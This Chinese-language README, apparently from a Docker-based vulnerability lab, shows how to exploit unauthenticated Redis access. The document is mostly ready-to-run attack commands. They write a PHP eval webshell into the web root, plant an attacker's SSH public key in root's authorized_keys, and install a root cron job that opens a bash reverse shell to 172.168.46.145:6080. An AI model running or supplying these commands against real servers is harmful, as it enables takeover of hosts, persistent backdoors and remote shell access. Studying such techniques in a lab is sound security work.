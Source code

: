 # Redis未授权访问

## Redis介绍
Redis是一个开源，高级的键值存储和一个适用的解决方案，用于构建高性能，可扩展的Web应用程序。
Redis有三个主要特点，使它优越于其它键值数据存储系统 -
* Redis将其数据库完全保存在内存中，仅使用磁盘进行持久化。
* 与其它键值数据存储相比，Redis有一组相对丰富的数据类型。
* Redis可以将数据复制到任意数量的从机中

切换到Docker目录下

```shell
docker-compose build
docker-compose up -d
```


## 获取webshell
redis获取webshell方式
![](README/0BC0421F-3329-4D6E-BA98-F139D44C1DB1.png)


登录测试
![](README/4CF6741B-AD1F-4E7C-9C7A-07F78D50694C.png)


获取webshell
```
config set dir /www
config set dbfilename trojan.php
set a "<?php eval($_POST[shadow]) ?>"
save
```

![](README/9A606F34-7043-46DD-A03C-E1DA081F40EC.png)
![](README/497D4AD7-8D43-4D3F-9021-3E84B3A65225.png)


![](README/9A69A13B-2CA7-4346-96F6-FA7DE39A23D5.png)

![](README/6B813CCA-8157-4565-8726-7A2B7C29B8E0.png)



## 访问ssh
在本地计算机上创建ssh密钥
```shell
ssh-keygen -t rsa
```

执行密钥生成命令，基本上是一路回车既可以了，但是需要注意的是：执行命令的过程中是会提示呢输入密钥的密码的，不需要密码直接回车就行

在ssh目录下会多出两个文件，id_rsa和id_rsa.pub，其中id_rsa是私钥，id_rsa.pub这个是公钥，然后就是想办法将公钥放在对方服务器的.ssh目录下

```shell
config set dir /root/.ssh
config set dbfilename authorized_keys
set a "\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDPIDP4MaWprjQiNZ2kcgcno2TcZiIrOjOB9ffzZc2K4+dldqoawVlDW8qDROWkWXqY+bIX6H4kePorGlX6SW8KYgP5KaG2FGIYeHiVqSrfm+VTxzmS1sOW3jkVXUZZBRdkpknY+0Pwy8aEHYXb+0wnRVeLgBZXb s1riu5@zhangjiangdeMBP\n\n"
save
```

![](README/C1744E97-A449-45FF-B0E8-34AC3232CD5D.png)


![](README/98587EEE-F925-4C6A-99F3-97852FCD9A03.png)




## 利用crontab反弹shell

crontab的计划目录在 _var_spool/cron

```shell
config set dir /var/spool/cron
config set dbfilename root
set b "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/172.168.46.145/6080 0>&1\n\n"
save
```

![](README/46DF2B86-CCF2-43F9-981D-5A2562C3F47D.png)


![](README/87AA4074-AD5C-4881-AB71-D4DB97D78DA8.png)





